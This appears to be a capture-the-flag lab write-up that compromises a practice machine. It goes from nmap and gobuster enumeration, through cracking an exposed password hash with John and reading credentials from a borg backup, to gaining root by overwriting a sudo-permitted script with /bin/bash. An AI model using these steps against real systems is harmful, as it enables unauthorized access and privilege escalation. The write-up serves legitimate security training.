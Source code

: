 **Task 2 - Compromise The System**

So, firstly Let's do a NMAP scan.

> nmap -sV 10.10.142.247 -T3

```
Nmap scan report for 10.10.142.247
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After That, we realize there is an apache webserver.

To search directories, let's bruteforce.

> gobuster dir -u http://10.10.142.247/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

And we see 2 directories.

```
[+] Url:                     http://10.10.142.247/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2022/12/31 16:36:52 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 314] [--> http://10.10.142.247/admin/]
/etc                  (Status: 301) [Size: 312] [--> http://10.10.142.247/etc/]
```

If we take a look at `http://10.10.142.247/etc/squid/passwd` there is a user and its md5-long password hash

> music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

So I will use the John to crack password hash for user `music_archive`

I put the hash in the passwd.txt file that I just created

> echo "music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn." > passwd.txt

> john --wordlist=/usr/share/wordlists/sqlmap.txt passwd.txt 

```
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)     
1g 0:00:00:11 DONE (2022-12-31 16:49) 0.08389g/s 120697p/s 120697c/s 120697C/s squeek..squinch
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We found out the password. We had the username as well.

So heading into `http://10.10.134.61/admin/` and click Archive>Download

The file archive.tar is downloaded.

> tar -xf archive.tar

If we take a look inside of it, we see that the archive is encrypted with borg

I surfed into `https://borgbackup.readthedocs.io/en/stable/quickstart.html#restoring-a-backup`

and found out that we need to mount this archive but we also need a phrase.

> apt-get install borg -y

Created a directory in home and tried to mount archive into there.

> mkdir ~/Documents/borgmnt/

> borg mount ~/Downloads/home/field/dev/final_archive/ ~/Documents/borgmnt

`Enter passphrase for key /root/Downloads/home/field/dev/final_archive:`

And then entered the password that we found recently (squidward)

So It's mounted to ~/Documents/borgmnt/

If we move into there, we find user files of alex

In Documents, there is a note.txt that includes:

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:**********
```

Now, we can ssh into the user!

> ssh alex@10.10.142.247

Password: **********

```
lex@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt 
**************************
alex@ubuntu:~$
```

**Privilege Escalation**

Let's see which files we have access to

> sudo -l

```
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

So that means we can run /etc/mp3backups/backup.sh

If we take a look at the files in /etc/mp3backups/ directory,

We see backup.sh file is owned by alex user

```
-rw-r--r--   1 root root   350 Dec 31 15:39 backed_up_files.txt
-r-xr-xr--   1 alex alex  1083 Dec 30  2020 backup.sh
-rw-r--r--   1 root root    45 Dec 31 15:39 ubuntu-scheduled.tgz
```

We can modify or run it as sudo.

Let's try adding command to the sh file.

> cd /etc/mp3backups/

> echo "/bin/bash" > backup.sh

-bash: backup.sh: Permission denied

We can't write on it as the file permissions have not set. Let's set it with:

> chmod 777 backup.sh

Now We are ready to add a line and run it.

> echo "/bin/bash" > backup.sh

> sudo ./backup.sh

Now the command has ran, we should have access to root user now.

```
root@ubuntu:/etc/mp3backups# whoami
root
root@ubuntu:/etc/mp3backups#
```

Flag is located in `/root/root.txt` so:

> cat /root/root.txt
*****************

Note: I enjoyed this room :)
